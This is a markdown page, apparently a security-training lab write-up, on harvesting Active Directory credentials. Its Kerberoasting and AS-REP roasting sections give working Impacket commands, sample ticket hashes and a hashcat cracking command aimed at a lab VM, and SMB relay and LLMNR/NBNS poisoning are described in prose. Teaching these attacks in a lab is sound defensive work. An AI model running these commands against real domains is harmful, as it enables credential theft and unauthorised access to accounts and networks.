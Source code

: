 # Credentials Harvesting Attacks in Active Directory

In previous tasks, we assumed initial access to a system and focused on obtaining credentials from memory or files within Windows. However, there are also network-based attacks that can be used to harvest credentials in a victim network.

This section introduces several Windows and Active Directory (AD) attacks for obtaining credential hashes. Before diving deeper, it's recommended to be familiar with the Kerberos protocol and NTLM (New Technology LAN Manager), which are commonly used for authentication in Windows environments.

---

## Kerberoasting

Kerberoasting is a common AD attack that targets Service Principal Name (SPN) accounts (e.g., IIS User, MSSQL). The attacker requests a Ticket Granting Service (TGS) ticket for an SPN account, which can then be cracked offline to obtain credentials. This attack enables privilege escalation and lateral movement.

**Demo Steps:**

1. **Enumerate SPN Accounts:**

    ```bash
    python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip MACHINE_IP THM.red/thm
    ```

    Example output:

    ```
    ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
    ----------------------------  -------  --------  --------------------------  ---------  ----------
    http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578  
    ```

2. **Request a TGS Ticket for the SPN Account:**

    ```bash
    python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip MACHINE_IP THM.red/thm -request-user svc-user 
    ```

    Example output includes a hash:

    ```
    $krb5tgs$23$*svc-user$THM.RED$THM.red/svc-user*$8f5de4211da1cd5715217[*REMOVED*]7bfa3680658dd9812ac061c5
    ```

3. **Crack the TGS Ticket Hash with Hashcat:**

    ```bash
    hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
    ```

Try replicating these steps against the attached VM: find the SPN user, perform the Kerberoasting attack, obtain the ticket, and crack it.

---

## AS-REP Roasting

AS-REP Roasting targets AD users with the "Do not require Kerberos pre-authentication" option enabled. This allows attackers to request authentication data without needing a password, retrieve password hashes, and attempt offline cracking.

**Steps:**

1. **Prepare a List of Domain Users (e.g., `/tmp/users.txt`):**

    ```
    Administrator
    admin
    thm
    test
    sshd
    victim
    CREDS-HARVESTIN$
    ```

2. **Perform the AS-REP Roasting Attack:**

    ```bash
    python3.9 /opt/impacket/examples/GetNPUsers.py -dc-ip MACHINE_IP thm.red/ -usersfile /tmp/users.txt
    ```

    Example output:

    ```
    [-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
    $krb5asrep$23$victim@THM.RED:166c95418fb9dc495789fe9[**REMOVED**]1e8d2ef27$6a0e13abb5c99c07
    ```

Impacket's `GetNPUsers.py` can export tickets in John or Hashcat format using the `-format` argument.

---

## SMB Relay Attack

The SMB Relay attack exploits the NTLM challenge-response protocol. By performing a Man-in-the-Middle attack, an attacker can capture SMB packets and extract hashes. This attack requires SMB signing to be disabled.

For more details, refer to the THM Exploiting AD room.

---

## LLMNR/NBNS Poisoning

LLMNR (Link-Local Multicast Name Resolution) and NBNS (NetBIOS Name Service) help machines resolve names when DNS fails. Attackers can spoof responses to these protocols, tricking victims into sending authentication data to the attacker.

**Goal:**  
Both SMB relay and LLMNR/NBNS poisoning attacks aim to capture NTLM authentication hashes, which can be used to access victim accounts or machines.

For more information, see the THM Breaching AD room.

---
